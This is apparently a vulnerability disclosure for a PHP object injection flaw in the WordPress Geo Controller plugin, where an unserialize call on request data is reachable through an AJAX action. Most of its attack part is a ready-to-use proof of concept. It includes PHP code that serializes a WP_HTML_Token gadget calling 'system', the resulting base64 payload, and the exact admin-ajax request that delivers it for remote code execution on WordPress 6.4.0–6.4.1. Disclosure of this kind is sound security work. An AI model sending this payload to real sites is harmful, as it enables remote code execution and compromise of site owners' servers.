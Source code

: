 # WordPress Geo Controller Plugin  - PHP Object Injection         

The `cf-geoplugin\inc\classes\Shortcodes.php` file in the Geo Controller Plugin contains a `unserialize` function with a controllable parameter, potentially leading to a PHP object injection vulnerability.

```php
# ajax__shortcode_cache()
unserialize(urldecode(base64_decode(sanitize_text_field(CFGP_U::request_string('options')))));
```

The method is added to `wp_ajax`, leading to an unauthorized PHP Object Injection vulnerability.

```php
$this->add_action('wp_ajax_cf_geoplugin_shortcode_cache', 'ajax__shortcode_cache');
```

It seems like there isn't a proper PHP chain within the plugin itself. However, there might be a possibility of leveraging object injection in WordPress versions 6.4.0 to 6.4.1, potentially leading to remote code execution.

https://www.wordfence.com/blog/2023/12/psa-critical-pop-chain-allowing-remote-code-execution-patched-in-wordpress-6-4-2/

payload：

```php
<?php

class WP_HTML_Token
{
    public $bookmark_name;
    public $on_destroy;

    public function __construct($bookmark_name, $on_destroy)
    {
        $this->bookmark_name = $bookmark_name;
        $this->on_destroy = $on_destroy;
    }
}

echo base64_encode(serialize(new WP_HTML_Token("calc","system")));

# TzoxMzoiV1BfSFRNTF9Ub2tlbiI6Mjp7czoxMzoiYm9va21hcmtfbmFtZSI7czo0OiJjYWxjIjtzOjEwOiJvbl9kZXN0cm95IjtzOjY6InN5c3RlbSI7fQ==
```

构造如下请求：

```
/wp-admin/admin-ajax.php?action=cf_geoplugin_shortcode_cache&options=TzoxMzoiV1BfSFRNTF9Ub2tlbiI6Mjp7czoxMzoiYm9va21hcmtfbmFtZSI7czo0OiJjYWxjIjtzOjEwOiJvbl9kZXN0cm95IjtzOjY6InN5c3RlbSI7fQ==
```

![image-20231214130726758](https://gallery-1310215391.cos.ap-beijing.myqcloud.com/img/image-20231214130726758.png)
